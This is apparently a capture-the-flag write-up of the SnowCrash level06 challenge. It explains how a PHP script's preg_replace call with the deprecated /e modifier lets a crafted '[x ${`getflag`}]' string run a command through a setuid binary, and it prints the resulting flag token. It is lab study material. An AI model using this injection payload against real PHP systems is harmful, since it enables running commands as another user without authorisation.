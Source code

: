 We see 2 files owned by the flag user.
````
level06@SnowCrash:~$ ls -la level*
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
````
![img_1.png](img/cat.png)
In the file level06.php, you can see that in the function
````
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
````

The function uses the deprecated and vulnerable 'e' modifier.
It will allow us to pass a function to a script and run it as another user:
so `/(\[x (.*)\])/e` will process the command and
run it will call the `y` function with it.

To write text that can pass through a regular expression, we will use the site:
https://regex101.com/

![img.png](img/regex101.png)

Now let's write this text to a file. We do not have permission to create files, so we will save it in `/tmp` folder.

    echo '[x ${`getflag`}]' > /tmp/command

And then pass the file as an argument:

    ./level06 /tmp/command

![img.png](img/command.png)

token: `wiok45aaoguiboiki2tuin6ub`